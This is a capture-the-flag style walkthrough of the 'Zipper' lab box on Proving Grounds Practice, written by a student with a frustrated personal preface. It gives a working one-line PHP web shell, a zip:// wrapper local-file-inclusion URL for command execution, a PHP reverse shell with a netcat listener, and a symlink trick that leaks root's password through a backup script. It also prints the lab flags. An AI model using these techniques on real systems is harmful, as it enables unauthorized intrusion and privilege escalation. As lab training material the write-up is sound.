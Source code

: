 ```yaml
---
Date: 2024-10-19
Platform: PG-Practice
Category: Linux
Difficulty: Hard
Status: In progress
IP: 192.168.111.229
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-62-proving-grounds-zipper-b49a52ed8e38
---
```

# Zipper
This entire box was a shitshow from start to finish - I lost count of how many times I reverted it. Lessons learned? Probably to walk the fuck away if you've been at a box for more than 2 hours and don't have initial access. 

I spent nearly 5 hours just trying to get a reverse shell on this, not because I was doing anything wrong, but because the box was broken beyond belief. I resorted to ping to check if it was still up every few minutes because I didn't trust any of it, and the frustration only grew when I finally got a reverse shell but couldn't upgrade from a dumb shell to anything useful. 

At that point I really did step away, hang washing, ride my bike and have lunch, and soon after I came back I realised the "dumb shell" issue was the same as I'd had on an earlier box, and the solution was to upload use a different PHP reverse shell. But I spent literally hours testing different PHP uploads before enough reverts finally fixed whatever was going on behind the scenes, so I needed the break to clear my head and summon the will to start testing new PHP revshells.

Thankfully the very next PHP revshell I uploaded (Ivan Sincek's) worked perfectly, and I could move forward with privesc. After all the bullshit of trying to get initial access, identifying the bachup script didn't take long, and it only took some gentle guidance from the walkthrough to pickup what needed to be done to get `root`.

For all the success of last weekend, this box throughly and repeatedly sat me on my ass, testing my frustration to the absolute limit - not because I could figure out what to do, but because it was so broken I couldn't do even the most basic things without it going down and refusing connections. So going forward, I'm setting a 2hour timelimit on initial access, and another 2 hours for privesc - if I can't manage either of those, then pressing on will have diminishing returns as I become more frustrated and start to make basic mistakes.

## Improved skills
- Time management
- Walking away if initial access isn't achieved within 2hrs
## Used tools
- nmap
- python
- pspy32

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN zipper.nmap 192.168.111.229 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Zipper
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.2p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.41)
- Navigated to `http://192.168.111.229:80` and identified online zip archiver `Zipper`
![[Pasted image 20241019093604.png]]
- Ran `gobuster dir -u http://192.168.111.229 -w //usr/share/dirb/wordlists/big.txt` to identify web directories
![[Pasted image 20241019094203.png]]
- Ran `gobuster dir -u http://192.168.111.229 -w //usr/share/dirb/wordlists/big.txt -x php,html,txt` to identify PHP, TXT & HTML files
![[Pasted image 20241019113329.png]]

---
# Exploitation
## Lcoal File Inclusion
- Created `simple_cmd.php` to include PHP command `<?php system($_REQUEST["cmd"]); ?>`
![[Pasted image 20241019114213.png]]
- Uploaded `simple_cmd.php` to Zipper and identified zip file save to `http://192.168.111.229/uploads/upload_1729300477.zip`
![[Pasted image 20241019114703.png]]
- Navigated to `192.168.111.229/index.php?file=zip://uploads/upload_1729300477.zip%23simple_cmd&cmd=whoami` to obtain RCE via zip wrapper LFI.
![[Pasted image 20241019114951.png]]
- Uploaded `reverseshell.php` with embedded PHP reverse shell, and identified file uploaded to `http://192.168.111.229/uploads/upload_1729314505.zip`
![[Pasted image 20241019154026.png]]
- Started netcat listener on port `1234` and navigated to `http://192.168.111.229/index.php?file=zip://uploads/upload_1729314505.zip%23reverseshell` to obtain reverse shell
![[Pasted image 20241019153949.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `find / -name local.txt -type f 2>/dev/null` then ran `cat /var/www/local.txt` to print flag `7638c3497498d0b4f3f12eabd89f3269`
![[Pasted image 20241019154220.png]]
- Ran `cat /etc/passwd` to identify any other users
![[Pasted image 20241019154401.png]]
- Ran `sudo -l` to identify `sudo` privileges - password required
![[Pasted image 20241019154453.png]]
- Ran `crontab -l` to identify any crontab data - none found
![[Pasted image 20241019154626.png]]
- Ran `ls /var/mail` to check available mail - none found
![[Pasted image 20241019154731.png]]
- Navigated to `/var/www/html/uploads` & ran `ls -lah` - identified interesting file `enox.zip --> /root/secret`
![[Pasted image 20241019160605.png]]
- Uploaded `pspy32` and ran `timeout 2m ./pspy32` to identify any processes or scripts running
![[Pasted image 20241019160635.png]]
- Identified script `/opt/backup.sh` running as `root`
![[Pasted image 20241019160813.png]]
- Ran `cat /opt/backup.sh` to identify
```
password=`cat /root/secret`
```
![[Pasted image 20241019161447.png]]
## Privilege Escalation vector
- Ran `touch root.txt` to create file in `/var/www/html/uplaods` and ran `ln -s /root/secret root.txt` to link file to `/root/secret`
![[Pasted image 20241019161918.png]]
- Waited for script to run, then ran `cat /opt/backups/backup.log` to view `/root/secret` appended to log file, and identified credentials `WildCardsGoingWild`
![[Pasted image 20241019162242.png]]
- Ran `su` to switch to `root` and entered credential `WildCardsGoingWild` for password
![[Pasted image 20241019162340.png]]
- Ran `cat /root/proof.txt` to print flag `a1c4888b41fc7697e214d03584c54dd5`
![[Pasted image 20241019162623.png]]
---
# Trophy & Loot
`local.txt` = `7638c3497498d0b4f3f12eabd89f3269`
`proof.txt` = `a1c4888b41fc7697e214d03584c54dd5`